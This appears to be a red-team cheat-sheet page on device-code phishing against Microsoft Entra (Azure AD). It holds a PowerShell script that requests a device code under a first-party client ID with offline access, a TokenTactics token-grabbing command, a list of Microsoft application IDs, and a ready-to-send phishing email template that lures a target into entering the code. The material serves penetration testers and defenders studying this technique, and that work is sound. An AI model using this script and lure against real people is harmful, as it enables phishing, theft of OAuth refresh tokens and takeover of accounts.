 #### Request Device Code token
- Code is only valid for 15 mi
- Request it manually
  - Uses version 2 of the device code auth flow
  - Scope = all default permissions and offline access
  - Copy the `user_code`
```
$ClientID = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
$Scope = ".default offline_access"
$GrantType = "urn:ietf:params:oauth:grant-type:device_code"

$body = @{
	"client_id" = $ClientID
	"scope" = $Scope
}

$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri
"https://login.microsoftonline.com/{tenant}/oauth2/v2.0/devicecode" -Body $body

Write-Output $authResponse
```

- https://github.com/rvrsh3ll/TokenTactics
```
ipmo .\TokenTactics-main\TokenTactics.psd1

Get-AzureToken -Client MSGraph
```

#### Common application ID's
- https://learn.microsoft.com/en-us/troubleshoot/azure/active-directory/verify-first-party-apps-sign-in
```
ACOM Azure Website 	23523755-3a2b-41ca-9315-f81f3f566a95
AEM-DualAuth 	69893ee3-dd10-4b1c-832d-4870354be3d8
ASM Campaign Servicing 	0cb7b9ec-5336-483b-bc31-b15b5788de71
Azure Advanced Threat Protection 	7b7531ad-5926-4f2d-8a1d-38495ad33e17
Azure Data Lake 	e9f49c6b-5ce5-44c8-925d-015017e9f7ad
Azure Lab Services Portal 	835b2a73-6e10-4aa5-a979-21dfda45231c
Azure Portal 	c44b4083-3bb0-49c1-b47d-974e53cbdf3c
AzureSupportCenter 	37182072-3c9c-4f6a-a4b3-b3f91cacffce
Bing 	9ea1ad79-fdb6-4f9a-8bc3-2b70f96e34c7
CPIM Service 	bb2a2e3a-c5e7-4f0a-88e0-8e01fd3fc1f4
CRM Power BI Integration 	e64aa8bc-8eb4-40e2-898b-cf261a25954f
```

#### Send device code to the target
- Email example:
```
Dear <USER>,

Use the Code to access the content of the website: https://microsoft.com/devicelogin

Code: <CODE>
```
